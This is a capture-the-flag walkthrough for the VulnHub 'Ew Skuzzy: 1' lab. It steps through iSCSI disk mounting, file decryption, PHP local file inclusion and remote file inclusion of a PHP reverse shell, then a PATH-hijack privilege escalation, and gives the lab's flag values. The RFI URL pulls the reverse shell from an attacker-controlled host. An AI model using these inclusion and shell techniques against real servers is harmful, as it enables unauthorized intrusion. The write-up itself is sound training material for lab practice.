# Ew Skuzzy: 1

## Goal
flags
uid=0(root) gid=0(root) groups=0(root)

## Download
[https://www.vulnhub.com/entry/ew_skuzzy-1,184/](https://www.vulnhub.com/entry/ew_skuzzy-1,184/)

## Walkthrough
Initial nmap shows ssh on 22, web on 80, and iscsi on 3260
 
  

Looking at the website we get a hint to scan the website using dirbuster
 
  

dirb results
 
  
*snippet of dirb results

All of the dirb results were junk except the last long URL
 
  

Looking at the page, oh hello Lionel
 
  

Let's look at the page source and there is a long commented string (actually strings)
 
  

Base64 decode and Lionel trolled us
 
  

With nothing else, we go back to see what we can find from the open iscsi port on 3260

Wait, ew skuzzy...iscsi....oh I get it :)

Google is always your friend, which yielded this helpful page
https://www.pentestpartners.com/blog/an-interesting-route-to-domain-admin-iscsi/

After installing iscsi tools I'm able to discover and connect to the target

iscsiadm -m node -p 192.168.0.130 -l iqn.2017-02.local.skuzzy:storage.sys0
 
  

fdisk reveals a new disk available at /dev/sdb
 
  

First we create the folder to mount to /mnt/skuzzy and then we mount and list the folder contents.  Look at that, flag1 is revealed
 
  
flag1{c0abc15976b98a478150c900ebb0c86f0327f4dd}

Looking back at the mounted disk contents we see what appears to be another mountable disk called bobsdisk.dsk. Creating the folder, mounting, and listing we find an email file ToAlice.eml and an encrypted file ToAlice.csv.enc
 
  

Looking at the ToAlice.eml, there's a lot of useful information and some misleading in my opinion about how to decrypt the ToAlice.csv.enc file.  Also flag2 is revealed :)
 
  
flag2{054738a5066ff56e0a4fc9eda6418478d23d3a7f}

So to decrypt the ToAlice.csv.enc file the email gives you everything you need including the password.  It hints that you need to use RockYou, but the password is right there and with that flag3 is revealed and more URLs

openssl enc -d -aes256 -in /mnt/bob/ToAlice.csv.enc -out /mnt/bob/ToAlice.csv -k supercalifragilisticoespialidoso
 
  

flag3{2cce194f49c6e423967b7f72316f48c5caf46e84}

Now back to the webs and the URLs we found. First one has some sweet scrolling marquee
 
  

Source code reveals more long commented strings
 
  

Base64 of strings reveal a Seinfeld troll :P
 
  

Next URL looks more interesting and states in the title we're on the right track
 
  

Looking at the links, first three are nothing of importance 

welcome.php
 
  

flag.php
 
  

party.php also includes link out to http://cultofthepartyparrot.com
 
  

The last link reader.php has a new link called Load Feed. When clicked it actually calls out to a file located on the local file system named data.txt
 
  

http://192.168.0.130/c2444910794e037ebd8aaf257178c90b/?p=reader&url=http://127.0.0.1/c2444910794e037ebd8aaf257178c90b/data.txt
 
  

From here it looks like we might be able to do some LFI, so back to Google and we find this helpful site for a reminder :) https://www.idontplaydarts.com/2011/02/using-php-filter-for-local-file-inclusion/

Giving it a try on the data.txt file and we're giving a long string
 
  

Base64 on the string reveals the source code and it seems that normal php tags use#php## instead
 
  

With that I started checking all the .php files associated with the links and flag.php revealed flag4 also told that we'll need it later for shell access
 
  
flag4{4e44db0f1edc3c361dbf54eaf4df40352db91f8b}

Base64 of reader.php was the entire source code, but hints that we need to provide a key
 
  
*snippet of reader.php

Trying RFI to Kali and told that we need a key for authentication 

http://192.168.0.130/c2444910794e037ebd8aaf257178c90b/?p=reader&url=http://192.168.0.131
 
  

Before anything I prep the php reverse shell on Kali, but making sure that I replace the starting and ending php syntax to#php##
 
  

Using flag4 as the key and calling our php reverse shell we now have a limited reverse shell :)

http://192.168.0.130/c2444910794e037ebd8aaf257178c90b/?p=reader&key=flag4{4e44db0f1edc3c361dbf54eaf4df40352db91f8b}&url=http://192.168.0.131/bzyo.php
 
  

Privilege escalation took me some time as I was stuck on finding something with iscsi.  After going through the go to privilege escalation guide, the file alicebackup stood out as the other key files included alice in the name
 
  

Looking closer at the file it's executable so I run it and it runs the command /usr/bin/id and attempts an ssh connection
 
  

Spent some time looking at HOSTALIASES, but that obviously didn't pan out so I took a step back...

I know that alicebackup runs id utility after executed as it prints out that root is running the program. However it's probably not using a full path and relative instead
 
  

Let's copy /bin/sh to /tmp folder and rename it id and then add /tmp to the PATH
 
  

Running alicebackup now triggers id utility at /tmp folder, but instead of giving the user it spawns a root shell and flag5 is revealed in the root folder :)
